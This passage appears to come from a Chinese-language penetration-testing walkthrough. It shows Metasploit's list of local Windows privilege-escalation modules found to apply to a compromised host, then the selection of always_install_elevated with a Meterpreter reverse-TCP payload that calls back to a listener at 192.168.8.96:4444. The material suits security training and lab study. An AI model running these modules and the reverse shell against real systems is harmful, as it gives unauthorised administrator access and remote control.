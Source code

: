 ```bash
[+] fe80::c471:5b9c:b92e:7e8a - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] fe80::c471:5b9c:b92e:7e8a - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] fe80::c471:5b9c:b92e:7e8a - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] fe80::c471:5b9c:b92e:7e8a - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] fe80::c471:5b9c:b92e:7e8a - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] fe80::c471:5b9c:b92e:7e8a - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] fe80::c471:5b9c:b92e:7e8a - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] fe80::c471:5b9c:b92e:7e8a - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/always_install_elevated                  Yes                      The target is vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.

```

这里我们就使用推荐的第一个模块 `exploit/windows/local/always_install_elevated`
```bash
msf6 exploit(windows/local/always_install_elevated) > use exploit/windows/local/always_install_elevated
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/always_install_elevated) > show options

Module options (exploit/windows/local/always_install_elevated):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.8.96     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```